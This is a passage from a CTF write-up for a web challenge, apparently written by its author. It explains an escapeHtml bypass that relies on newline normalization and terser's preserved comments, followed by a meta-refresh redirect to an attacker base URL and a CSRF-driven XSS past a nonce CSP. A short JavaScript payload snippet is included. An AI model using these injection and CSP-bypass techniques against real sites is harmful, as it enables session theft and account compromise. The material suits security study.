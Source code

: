 I found a detailed post on newline normalizations. See it if you are interested:

- https://blog.whatwg.org/newline-normalizations-in-form-submission

Anyway, using `\n` seems to make sense. However, the `\n` characters will be erased by the minifier unfortunately:cry:.

Is there a way to maintain `\n` characters? See the documentation of `terser`:

- ref. https://github.com/terser/terser#format-options

> `comments` (default `"some"`) -- by default it keeps JSDoc-style comments that contain "@license", "@copyright", "@preserve" or start with `!`, pass `true` or `"all"` to preserve all comments, `false` to omit comments in the output, a regular expression string (e.g. `/^!/`) or a function.

The service uses default options for `terser`, so you can maintain `\n` characters using copyright comments like `/*! foo\nbar */`.

#### Step 2: CSP bypass

The service uses the following CSP:

```
default-src 'self';
base-uri 'none';
object-src 'none';
style-src https://unpkg.com/simpledotcss/simple.min.css;
script-src 'nonce-{{CSP_NONCE}}'
```

You should bypass it to XSS.

The first step of CSP bypass is using `<meta>` to redirect to a web site that you prepared.

For example, the following `code` causes a redirection:
```javascript
const meta = `<meta http-equiv="Refresh" content="0; URL=${ATTACK_BASE_URL}">`;
const code = `/*!${"\n".repeat(meta.length + 3)}${meta}*/\n`;
```

The many `\n` characters will be not erased by the minifier and will be converted to `\r\n` characters in a form submission. So, the value of `minifiedLength` will be `minifiedCode.length - (meta.length + 3)`. Then, it will bypass `escapeHtml` and will redirect to `ATTACK_BASE_URL`.

In your redirected web site, you can controll submit values freely by CSRF. Now all you have to do is gain XSS using appropriate values of `minifiedCode`, `originalLength`, and `minifiedLength`.


Finally, you need to break the rendering of `escapeHtml` so that the CSP nonce is applied to an injected script. See `index.html` of my solver below[^maas-1].

My solution abuses the behavior of `substring` used in `escapeHtml`:

- ref. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/substring#description

> If `indexStart` is greater than `indexEnd`, then the effect of `substring()` is as if the two arguments were swapped; see example below.

[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:

### Solver


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell